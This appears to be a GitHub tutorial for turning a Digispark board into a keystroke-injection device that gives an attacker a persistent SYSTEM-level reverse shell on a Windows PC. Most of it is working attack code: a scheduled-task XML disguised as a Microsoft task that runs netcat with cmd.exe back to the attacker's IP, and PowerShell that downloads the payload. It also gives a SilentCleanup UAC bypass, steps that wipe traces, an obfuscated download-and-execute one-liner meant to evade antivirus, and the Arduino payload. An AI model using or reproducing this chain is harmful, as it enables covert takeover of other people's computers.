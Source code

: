 ## Gain control on a computer in 3 seconds

#### As seen on Mr.Robot (S04x10)

![Mr Robot hodling Digispark](https://cdn.discordapp.com/attachments/914907771063894059/926024143202295828/IMG_0022.png)


**S**o, I made a rubber ducky with a small arduino board (called digispark-[[link here]](https://www.amazon.in/dp/B07B8SS1VQ/ref=cm_sw_r_cp_api_glt_fabc_MHJ6HENHA71NN6VZK0DE)).The original rubber duckies are pretty costly (for me anyway) [[link here]](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). Sure they're fast and have more memory than digisparks, but making one our own will give us complete control of the board.We can configure the boot load times, make signals with on-board led etc.

## UAC bypass

UAC means 'User Account Control'. Yes, even if your computer has tight securities like when you try to install an app, the UAC dialogue box appears asking  a simple'Yes' or 'No'. We're going to bypass and go further.

![UAC prompt screen](https://cdn.discordapp.com/attachments/914907771063894059/925379076624113734/IMG_0014.jpg)

We'll also evade all major anti-virus applications using clever tricks.

## So how do we do this
Well, first of all you need to download netcat 1.12 [[link here]](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip) and extract the **nc64.exe.** Once you got it extracted upload it to some file-hosting service of your choice, which provides **DIRECT LINK** (very important!!). I used **Discord**, it works like a charm and link doesn't expire. Just upload the file to discord, right click on it and select copy media link.

&#x200B;

Second, you need to make yourself an **.XML** file which you'll need later for Task Scheduler. I believe scheduled tasks are really good way to set up persistence. It means our hack will always run in background even when the system restarts or anything. Scheduled tasks are also good for escalating the file that it executes to **NT Authority\\SYSTEM** privileges, while remaining stealthy. 

I already did the work for you.This is what it should look like.


    <?xml version="1.0" encoding="UTF-16"?>
    <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
      <RegistrationInfo>
    <Author>Microsoft Corporation</Author>
    <Description>This will ensure system stability in case of an unexpected update interruption.</Description>
      </RegistrationInfo>
      <Triggers>
    <LogonTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <Enabled>true</Enabled>
      <Delay>PT30S</Delay>
    </LogonTrigger>
      </Triggers>
      <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
      </Principals>
      <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>true</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
      </Settings>
      <Actions Context="Author">
    <Exec>
      <Command>%public%\audiosvc.exe</Command>
      <Arguments>(Your IP address without brackets) 4444 -e cmd.exe -d</Arguments>
    </Exec>
      </Actions>
    </TASK>



Just modify the arguments in the bottom with your **IP/PORT**. You can google how to find ip-address of your device.Once you got that done, save it and upload it for **DIRECT LINK**, just like you uploaded your previous file. 



&#x200B;

Now, that the boring setup part is over, we get to the actual code that's being executed to achieve this type of shell:

    cd $env:public
    $url1="YOUR_NC64_LINK"
    $url2="YOUR_XML_LINK"
    $path1="$env:public\svchost.exe"
    $path2="$env:public\x.xml"
    (new-object net.webclient).downloadfile($url1,$path1)
    (new-object net.webclient).downloadfile($url2,$path2)
    cmd /r 'reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" /va /f&reg add "HKCU\Environment" /v "windir" /d "%comspec% /r mode 18,1&cd %public%&schtasks /create /tn \"Windows Update Assistant\" /f /xml x.xml >nul&schtasks /run /tn \"Windows Update Assistant\" /i >nul&REM "&timeout /t 1&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul&timeout /t 1&reg delete "HKCU\Environment" /v "windir" /F&attrib +s +h svchost.exe&del /q x.xml'

## Whats happening?

We're creating a persistent reverse shell(more about reverse shell [[link here]](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)).

First, it downloads both of your files via powershell, then it clears our Windows + R history to clear any traces of itself (if you're using  USB RubberDucky). Then it uses the UAC bypass technique i shared at the end of this post to create scheduled task called **Windows Update Assistant**, which is set to be executed to run with **NT Authority\\SYSTEM** privileges(high level privileges or access) in our **.XML** file. Then it marks our **nc64.exe** file as hidden system file, which is also now called **svchost.exe** and then it deletes our **.XML** file, since system doesn't need it anymore after task is created.

&#x200B;

Now you're probably thinking, this is all nice, but how the hell do we run this in one-line of code?

Very simple, by invoking expression called **DownloadString** in powershell like this:

    powershell -nop -w 1 -c "iex (new-object net.webclient).downloadstring('YOUR_PASTEBIN_LINK')"

But problem with this one-liner is, that it gets picked up by most Anti-viruses as "malicious activity". Therefore, we need to obfuscate(hide) it a bit:

    cmd.exe /c powershell -nop -w 1 -c "iex (.('ne'+'w-ob'+'ject') ('ne'+'t.webc'+'lient')).('do'+'wnloadstr'+'ing').invoke(('Y'+'OUR_'+'PASTEBIN'))"

And there it is, this one liner will get you persistent reverse shell which will check for itself every minute if it's running and if it's not, then it executes itself silently in the background.

&#x200B;

## The UAC bypass technique

Bypassing highest UAC level [Windows 8,10,11]

&#x200B;

It's done by adding temporary Environment variable **windir** into **HKCU\\Environment** registry path.

There's an auto-elevated task called **SilentCleanup** and it's located in: **%windir%\\system32\\cleanmgr.exe** We can easily abuse this and elevate any file with Administrator privileges without prompting UAC (even highest level).

So let's say I'm gonna set **windir** to: "**cmd /k REM** "

And forcefully run **SilentCleanup** task:

    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

**REM** will tell it to ignore everything after **%windir%** and treat it just as a NOTE. Therefore just executing cmd with admin privs.

If you want to try this for yourself, here's a little batch script I made to elevate powershell:

    @echo off
    mode 18,1
    color FE
    reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
    timeout /t 2 >nul
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
    timeout /t 3 >nul
    reg delete "HKCU\Environment" /v "windir" /F

&#x200B;

## Wait i hacked my own system

You may be testing this on your own system. If you want to remove the reverse shell, copy the following code into a batch file( files ending with .bat extension on windows) and run it with administrator privilages.(right click on the bat file and click run-as-administrator).


    @echo off
    schtasks /end /tn "Windows Update Assistant" >nul
    schtasks /delete /tn "Windows Update Assistant" /f
    cd %public%
    attrib -s -h svchost.exe
    del /q svchost.exe
    timeout /t 1 >nul



&#x200B;


## Rubber ducky code

Digispark works with Arduino IDE, you can learn writing Arduino scripts on google.It's pretty simple and easy. You can learn how to setup Arduino IDE for digispark here [[Link]](https://maker.pro/arduino/projects/how-to-build-a-rubber-ducky-usb-with-arduino-using-a-digispark-module)

    #include "DigiKeyboard.h"

    void setup() {}

    void loop() {
	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(3000);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(500);
	DigiKeyboard.print("[code]");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

Above code is simple and Works on any PC. Plug-in your digispark to PC and see the magic happen in 3 seconds.